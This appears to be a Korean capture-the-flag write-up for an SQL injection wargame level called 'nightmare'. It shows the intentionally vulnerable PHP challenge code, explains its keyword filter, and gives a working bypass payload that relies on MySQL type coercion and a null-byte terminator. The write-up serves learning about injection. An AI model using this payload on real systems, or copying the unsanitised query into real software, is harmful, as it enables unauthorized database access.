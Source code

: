 # NIGHTMARE

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

## Inspection
* `if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~");`
	- 파라미터의 `pw`에서 `prob`, `_`, `.`, `()`, `#`, `-`를 거른다.
* `if(strlen($_GET[pw])>6) exit("No Hack ~_~");`
	- 파라미터의 `pw`의 길이가 6글자 이상이면 걸러진다.
* `select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'`
	- 파라미터로 `pw`를 받는다.
	- `pw`를 `()`와 `'`로 감싼다.
	- `id!='admin'`이 있다. 하지만 문제를 푸는데는 상관없다.
* `if($result['id']) solve("nightmare");`
	- 쿼리문의 결과가 뜬다면 통과한다.

## Solution
* 주석 대신 쿼리문의 끝을 나타내는 `;`과, MySQL의 자동형변환을 이용한다.
	- `?pw='=9);%00`
	- `select id from prob_nightmare where pw=(''=9);') and id!='admin'`
	- `''=9`
		+ `0`을 제외한 아무 숫자나 넣으면 `false(0)`이 뜬다.
	- `pw=(''=9)`
		+ 문자열을 숫자와 비교할 때 `0`으로 계산한다.
		+ 따라서 `pw=0`은 `0=0`으로 참이다.
	- `;%00`
		+ 주석 대신 세미콜론과 널 값으로 뒷내용을 무시할 수 있다.
	
## Review
* [mysql: why comparing a 'string' to 0 gives true](https://stackoverflow.com/questions/22080382/mysql-why-comparing-a-string-to-0-gives-true)
* 위 글을 보고 `?pw=1'='0`으로 날려 앞부분은 참을 만들었는데, 통과를 못했다. 뒷부분이 항상 거짓인 것 같아서 이를 무시하려고 해봤으나, 주석을 제외한 나머지 방법을 찾지 못했다. 그래서 솔루션을 찾아보았다..
